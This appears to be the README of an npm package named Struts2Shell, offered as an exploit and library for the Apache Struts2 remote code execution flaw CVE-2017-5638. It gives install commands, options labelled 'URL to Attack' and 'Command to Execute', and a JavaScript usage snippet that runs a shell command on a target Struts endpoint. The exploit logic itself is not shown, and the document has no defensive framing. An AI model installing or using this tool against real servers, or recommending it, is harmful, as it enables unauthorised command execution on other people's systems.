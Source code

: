 # Struts2Shell

An exploit (and library) for CVE-2017-5638 - Apache Struts2 S2-045 bug.

## Installation

```sh
$ npm install -g struts2shell
```

## Installation as Library

```sh
$ npm install struts2shell
```

## Command Line Options
    -h, --help           output usage information
    -V, --version        output the version number
    -u, --url [target]   URL to Attack
    -c, --cmd [command]  Command to Execute

## Usage as Library

```javascript
var Struts2Shell = require('struts2shell');
Struts2Shell({
	URL: 'http://example.com/some.action',
	CMD: 'dir'
}, function(err, response,body) {
    if(err) throw err;
    console.log(body)
})
```

License
----

MIT


**Free Software, Hell Yeah!**